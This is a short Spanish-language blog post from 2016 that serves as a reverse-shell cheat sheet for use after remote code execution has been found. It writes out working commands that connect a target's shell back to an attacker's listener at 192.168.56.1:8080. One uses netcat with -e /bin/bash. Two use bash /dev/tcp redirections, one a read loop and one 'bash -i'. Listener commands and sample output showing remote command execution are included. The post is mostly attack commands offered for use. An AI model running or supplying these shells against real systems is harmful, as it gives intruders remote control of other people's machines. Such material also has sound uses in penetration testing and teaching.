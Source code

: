 ```yaml
---
layout: post
title:  Reverse shells
excerpt: Reverse shell cheat sheet
date:   2016-12-11
image:
  feature: pexels-photo-2.jpeg
categories: blog
comments: true
share: true
tags: [shell, netcat, security]
---
```

Situación: encontrado un método de RCE pero sin posibilidad de acceso a la shell. Solución: _bind_ de la shell a un puerto TCP.

## netcat

Esto ya lo vimos hace tiempo en este [articulo]. Lo que ocurre es que:

* nc/netcat no siempre estará disponible
* si lo está, es posible que no tenga la opción `-e`

En ese caso, puedo ponerme a escuchar (en un puerto accesible al sistema de destino):

```shell
nc -l 8080
```

Y en destino:

```shell
nc 192.168.56.1 8080 -e /bin/bash
```
Ya podemos ejecutar comandos en el sistema remoto cómodamente sentados frente a nuestra máquina:

```shell
user@mihost:~$ nc -l 8080
hostname
vmjessie
```

La máquina objeto de la ejecución de la shell inicia una conexión hacia el puerto de escucha (8080 en el ejemplo). Por eso es necesario elegir un puerto accesible, no filtrado; una elección segura serían los puertos 80 o 443.

## bash

En este caso no vamos a usar `nc` en el equipo objetivo, sino un descriptor asociado a un socket donde vamos a enviar las salidas de la shell. Partimos de nuestro equipo (en el ejemplo, nuestra IP es 192.168.56.1), donde estamos escuchando (con `nc` o lo que sea, da igual) en un puerto accesible:

```shell
nc -vvv -l 8080
```

Y en el objetivo:

```shell
exec 5<>/dev/tcp/192.168.56.1/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Con esto, los comandos que tecleemos en nuestra máquina son ejecutados en la remota y la salida nos llega a nosotros:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
hostname
target
```

Mediante esta otra sintaxis:

```shell
user@target:~$ bash -i >& /dev/tcp/192.168.56.1/8080 0>&1
```

tenemos igualmente la consola en nuestra máquina, prompt incluido:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
user@target:~$ hostname
hostname
target
```

Si hay alguna razón para ejecutar la shell vía algún lenguaje de scripting (PHP, Perl, Python, Java, Ruby... ¡¡Gawk!!) [aquí] hay un montón de pruebas de concepto para entretenerse un rato.

[articulo]:/uso-de-netcat
[aquí]:https://highon.coffee/blog/reverse-shell-cheat-sheet/
